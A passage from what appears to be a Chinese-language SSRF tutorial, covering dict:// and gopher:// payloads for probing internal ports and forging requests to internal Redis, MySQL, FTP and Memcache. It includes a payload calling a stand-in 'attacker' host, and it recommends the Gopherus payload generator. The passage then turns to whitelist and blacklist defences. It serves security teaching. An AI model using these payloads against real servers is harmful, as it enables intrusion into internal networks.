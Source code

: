 

### dict

DICT URL 方案用于引用使用 DICT 协议可用的定义或单词列表，可以用来操作内网Redis等服务，字典协议自带头尾，限制较大，不能转化成GET或者POST的请求

```
dict://<user>;<auth>@<host>:<port>/d:<word>:<database>:<n>
ssrf.php?url=dict://attacker:11111/
```

SSRF 常配合 DICT 协议探测内网端口开放情况，但不是所有的端口都可以被探测，一般只能探测出一些带 TCP 回显的端口

```
dict://xx.xx.xx.xx:port
```

![](https://img-blog.csdnimg.cn/img_convert/efeecaf90968005548a51f8b5899dbf3.png)

### Gopher

Gopher是一种分布式文档传递服务。利用该服务，用户可以无缝地浏览、搜索和检索驻留在不同位置的信息。

```
gopher://<server>:8080/_GET / HTTP/1.0%0A%0A
gopher://<server>:8080/_POST%20/x%20HTTP/1.0%0ACookie: eatme%0A%0AI+am+a+post+body
```

支持换行可以伪造其他的所有协议，可以攻击内网的 FTP、Telnet、Redis、Memcache，也可以进行 GET、POST 请求，还可以攻击内网未授权MySQL。

推荐一个基于利用Gopher协议的工具

```
https://github.com/tarunkant/Gopherus
```

此工具为以下各项服务生成 Gopher协议 有效Payload：

```
MySQL
PostgreSQL
FastCGI
Redis
Zabbix
Memcache
```

关于工具用法可以参考这篇文章

```
https://spyclub.tech/2018/08/14/2018-08-14-blog-on-gopherus/
```



## 白名单&&黑名单

在前面中我们提到SSRF产生的原因为未对参数中引用的URL进行限制，使得攻击者能够利用这一漏洞将引用的URL指向内网中的其它地址以获得本应该被拒绝外网访问的资源。因此常见的SSRF防御手段为对引用的URL进行限制。常见的限制手段有**黑名单和白名单**两种。
